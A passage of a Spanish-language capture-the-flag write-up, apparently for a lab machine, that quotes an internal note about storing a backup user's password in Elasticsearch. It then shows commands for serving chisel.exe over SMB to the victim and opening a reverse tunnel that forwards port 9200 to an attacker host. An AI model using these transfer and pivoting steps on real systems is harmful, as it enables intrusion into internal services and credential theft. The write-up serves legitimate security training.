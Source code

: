Leyendo el post..
```markdown
---
title: "**INTERNAL** Getting rid of LAPS"
description: Replacing LAPS with out own custom solution
date: 2023-07-01
draft: true 
tags: [internal, sysadmin] 
---
# Intro
We are getting rid of LAPS in favor of our own custom solution. 
The password for the `backup` user will be stored in the local Elastic DB.
IT will deploy the decryption client to the admin desktops once it it ready. 
We do expect the development to be ready soon. The Malware RE team will be the first test group. 
```

# Reverse Port Forwarding
Vamos a compartirnos el puerto 9200 donde está el ElasticSearch a nuestra máquina con `chisel`

Con `impacket-smbserver` vamos a servidor bajo el recurso `smbFolder` el binario `chisel.exe` para pasarlo a la máquina víctima
```console
$ sudo impacket-smbserver -smb2support smbFolder .
```

```console
C:\ProgramData>copy \\10.10.14.125\smbFolder\chisel.exe chisel.exe
        1 file(s) copied.
```

Ahora en nuestra máquina de atacante nos ponemos en escucha con `chisel` para hacer reverse port forwarding por el puerto 1234

```console
$ /opt/chisel/chisel server --reverse -p 1234
2024/08/27 18:01:42 server: Reverse tunnelling enabled
2024/08/27 18:01:42 server: Fingerprint bEQflnf3gWBSSWLT8J0cMyLsdZwrLMC5qP/FPXdEKAU=
2024/08/27 18:01:42 server: Listening on http://0.0.0.0:1234
```

Ahora en la máquina víctima nos pasamos con el binario de `chisel.exe` el puerto 9200 para que se convierta a nuestro puerto local 9200.
```console
:\ProgramData>.\chisel.exe client 10.10.14.125:1234 R:9200:127.0.0.1:9200
```

Y vemos que todo ha salido bien en principio.
```console
$ /opt/chisel/chisel server --reverse -p 1234
2024/08/27 18:01:42 server: Reverse tunnelling enabled
2024/08/27 18:01:42 server: Fingerprint bEQflnf3gWBSSWLT8J0cMyLsdZwrLMC5qP/FPXdEKAU=
2024/08/27 18:01:42 server: Listening on http://0.0.0.0:1234
2024/08/27 18:03:02 server: session#1: tun: proxy#R:9200=>9200: Listening
```
